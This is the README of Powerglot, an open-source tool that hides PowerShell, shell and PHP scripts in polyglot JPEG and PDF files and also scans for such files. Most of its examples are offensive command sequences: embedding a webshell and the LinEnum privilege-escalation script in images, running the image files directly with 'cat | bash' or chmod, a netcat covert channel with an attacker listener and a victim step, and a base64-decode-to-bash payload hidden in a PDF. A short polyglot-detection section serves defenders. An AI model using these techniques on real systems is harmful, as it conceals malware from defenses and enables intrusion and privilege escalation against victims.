 # Powerglot

Powerglot encodes several kind of scripts using polyglots, for example, offensive powershell scripts. It is not needed a loader to run the payload.

In red-team exercises or offensive tasks, masking of payloads is usually done by using steganography, especially to avoid network level protections, being one of the most common payloads scripts developed in powershell. Recent malware and APTs make use of some of these capabilities: APT32, APT37, Ursnif, Powload, LightNeuron/Turla, Platinum APT, Waterbug/Turla, Lokibot, The dukes (operation Ghost), Titanium, etc.

Powerglot is a multifunctional and multi-platform attack and defense tool based on polyglots. Powerglot allows to mask a script (powershell, shellscripting, php, ...) mainly in a digital image, although other file formats are in progress. Unlike the usual offensive tools or malware, Powerglot does not need any loader to execute the "information hidden", minimizing the noise on the target system.

PowerGlot has a clear utility in offensive tasks but it is also defined as a discovery and blue team tool. To our knowledge, it is the first general and complete open-source tool that allows to search for the presence of masked information with polyglots, information that could be useful to achieve persistence in a system or to hide malware (stego-malware, privilege escalation, lateral movement, reverse shell, etc.)

Features:
- Encode powershell/shell script/php/.. in a polyglot image. It is not necessary a loader to recover/execute the hidden information (payload). PowerGlot works with several formats. Mainly, JPEG and PDF format. Other formats are in progress.

- Powerglot is a complete open-source tool to detect (malicious) polyglots, specially the result of some public tools as Truepolyglot or stegoSploit. We works in several formats: JPEG, PNG, GIF, BMP, ZIP, PDF, MP3, etc.

# Installation
```
# git clone https://github.com/mindcrypt/powerglot
# python3 powerglot
```
# Usage & Parameters

Some examples to hide payloads using polyglots with Powerglot
```
# Example 1 - Hiding a powershell/php/shell script in a JPEG image

# python3 powerglot.py -o payload.ps1 cat.jpg cat-hidden1.jpg
# python3 powerglot.py -o webshell.php cat.jpg cat-hidden2.jpg
# python3 powerglot.py -o shell.sh cat.jpg cat-hidden3.jpg
```
```
# Example 2 - Hiding a shell script (linenum.sh) for privilege escalation "hidden" in a JPEG image

# python3 powerglot.py -o linenum.sh cat.jpg cat-linenum.jpg
# file cat-linenum.jpg (It is a valid JPEG file)
# feh cat-lineum.jpg (The image is properly showed in an image viewer)

# We can execute the script in several ways:

a) cat cat-linenum | bash
b) chmod +x cat-linenum.jpeg; ./cat-linenum.jpeg

```
```
# Example 3 - Hiding a cover-channel wiht netcat in a JPEG image

# Attacker
# echo "nc 127.0.0.1 4444" > netcat.sh
# python3 powerglot.py -o netcat.sh cat.jpeg cat-netcat.jpeg
# nc -nvlp 4444

#Victim
# chmod +x cat-netcat.jpg | ./cat-netcat.jpg

https://github.com/mindcrypt/powerglot/blob/master/nc-polyglot.png
```
```
# Example 4 - Polyglot in PDF (Ej-linenum.sh)
# Create b64.sh with your favourite payload
base64 Linenum.sh -w 0 > b64.sh
# Edit b64.sh
echo "code in b64.sh" | base64 -d | bash;

# python3 powerglot -o b64.sh sample.pdf test.pdf
# file test.pdf
# xpdf test.pdf

# Execute payload
# cat test.pdf | bash or chmod +x test.pdf; ./test.pdf
```
```
# Example 5 - Powershell in JPEG (polyglot)
# python3 powerglot.py -o script.ps1 cat.jpeg cat-ps.jpeg
# file cat-ps.jpeg
# feh cat-ps.jpeg

# Execute payload (example)
# cat cat-ps.jpeg | pwsh

PS /home/alfonso/PowerGlot/POWERSHELL> get-process;<#hola <# mundo#>

 NPM(K)    PM(M)      WS(M)     CPU(s)      Id  SI ProcessName
 ------    -----      -----     ------      --  -- -----------
      0     0,00       2,70       0,00     830 829 (sd-pam)
      0     0,00       0,00       0,00      75   0 acpi_thermal_pm
      0     0,00       4,80       0,00    1217 854 agent
      0     0,00       1,70       0,00     748 748 agetty
      0     0,00      40,77       1,01    1198 854 applet.py
      0     0,00       6,29       0,00     938 938 at-spi-bus-launcher
      0     0,00       6,61       5,64     953 938 at-spi2-registryd
      0     0,00       0,00       0,00     131   0 ata_sff
      0     0,00       1,77       0,00    8906 …78 atom
      0     0,00     218,81     585,95    8908 …78 atom
      0     0,00     236,18     176,24    8947 …78 atom
      0     0,00     142,14       2,51    9009 …78 atom
      0     0,00      81,54       3,32    8932 …78 atom --type=gpu-process --enable-features=SharedArrayBuffer -…
      0     0,00      39,44       0,01    8910 …78 atom --type=zygote --no-sandbox
      0     0,00       5,62       0,11    1370 …70 bash
      0     0,00       5,36       0,66    5278 …78 bash
      0     0,00       6,34       1,48    6778 …78 bash
      0     0,00       0,00       0,00      68   0 blkcg_punt_bio
      0     0,00      46,73       2,20    1199 854 blueman-applet
      0     0,00      50,25       1,64    1301 854 blueman-tray
```
Some examples to detect polyglots in our filesystem
```
#python3 powerglot.py -d ./
--= [Detecting polyglots] --=
..............................................................
[Suspicious file]-[ ./cat-end-extra2.jpg ]..
[Suspicious file]-[ ./cat-end-extra3.jpg ][Polyglot Stegosploit][EOF Signature: */ -->]
.................................................................................
[Suspicious file]-[ ./cat-end-extra1.jpg ]..
```

# Future work. Doing
- We are working to support different file formats for encoding information in polyglots. Currently, we support several techniques in JPEG and PDF.
- We are working to incorporate rules for the detection of polyglots in different formats. Currently, the presence of StegoSploit in JPEG files is detected (added */ --> after FFD9)

# Author & license

This project has been developed by Dr. Alfonso Muñoz and Abraham Pasamar. The code is released under the GNU General Public License v3.


